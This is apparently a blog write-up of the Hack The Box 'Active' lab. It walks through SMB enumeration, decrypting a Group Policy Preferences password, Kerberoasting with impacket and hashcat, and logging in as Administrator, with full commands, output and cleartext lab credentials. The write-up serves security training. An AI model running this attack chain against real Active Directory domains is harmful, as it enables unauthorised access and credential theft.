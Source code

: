 ```yaml
---
layaout: post
image: /assets/images/active_test1.png
title: Active Write Up HTB
date: 28-01-2025
categories: [Write ups]
tag: [Active Directory, kerberoasting, GPP]
excerpt: "Active is a relatively straightforward machine, perfect for getting started with Active Directory. In this machine, we'll explore techniques like Kerberoasting and GPP Passwords, two common methods for privilege escalation in AD environments. Great for practicing and understanding key concepts!"
---
```

![img-description](/assets/images/active_test1.png)

**Active** is a relatively straightforward machine, perfect for getting started with **Active Directory**. In this machine, we'll explore techniques like **Kerberoasting** and **GPP Passwords**, two common methods for privilege escalation in AD environments. Great for practicing and understanding key concepts! 🚀
# **ENUMERATION**
----
## NMAP SCANNING
----
We start using nmap:
````bash 
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped    syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 53262/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 52552/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-01-27T18:16:36
|_  start_date: 2025-01-27T17:58:44
|_clock-skew: -1s
````
After analyzing the nmap, we can realize that we are dealing with an Active Directory, so we will start by enumerating the SMB.

# **ENUMERATING SMB AS ANONYMOUS**
----
````bash
smbclient -L \\\10.10.10.100/shares
Password for [WORKGROUP\root]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
````

## On smb we found credentails for SVC_TGS
---
````bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 22:46:06 2018

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
````

# **FOOTHOLD**
----
## Group Policy Preferences

When a new Group Policy Preference (GPP) is created, an XML file is stored in the SYSVOL share containing its configuration, including any associated passwords. These passwords are AES-encrypted and stored as `cpassword`. However, Microsoft publicly [released the encryption key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx).

In 2014, Microsoft patched this by preventing admins from adding passwords to GPP, but it didn’t address existing vulnerable passwords. As of 2025, pentesters still find these issues. For more details, see this [AD Security post](https://adsecurity.org/?p=2288).

# **AUTHENTICATED ENUMERATION**
---
## Enumerating SMB as SVC_TGS
----

````bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18

smb: \SVC_TGS\Desktop\> ls
  .                                   D        0  Sat Jul 21 17:14:42 2018
  ..                                  D        0  Sat Jul 21 17:14:42 2018
  user.txt                           AR       34  Tue Jan 28 02:14:45 2025

                5217023 blocks of size 4096. 260447 blocks available
````
# **PRIVILEGE ESCALATION**
----
## Kerberoasting
----
Kerberos is an authentication protocol used in Windows Active Directory environments (and can also be used for Linux hosts). In 2014, Tim Medin introduced the _Kerberoasting_ attack. This attack involves obtaining Kerberos tickets encrypted with the hash of a service account's password. Instead of sending the ticket to the service, it can be brute-forced offline to crack the password.

Typically, an active domain account is required to perform the attack. However, if the Domain Controller (DC) is configured with the _"Do not require Kerberos preauthentication"_ setting, it’s possible to request and receive a ticket without a valid domain account.

We are going to use the credentials we previously obtained to execute the attack using `impacket-GetUserSPNs`.
````bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2025-01-27 18:59:55.488567
````
We were able to extrat the ticket which we will try to force decrypt to get Administrator's password

````bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
````

## Acces as ADMINISTRATOR to smb

````bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968

smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Jan 21 17:49:47 2021
  ..                                 DR        0  Thu Jan 21 17:49:47 2021
  desktop.ini                       AHS      282  Mon Jul 30 15:50:10 2018
  root.txt                           AR       34  Mon Jan 27 18:59:52 2025
  
````
![netrunner](/assets/images/netrunner.gif)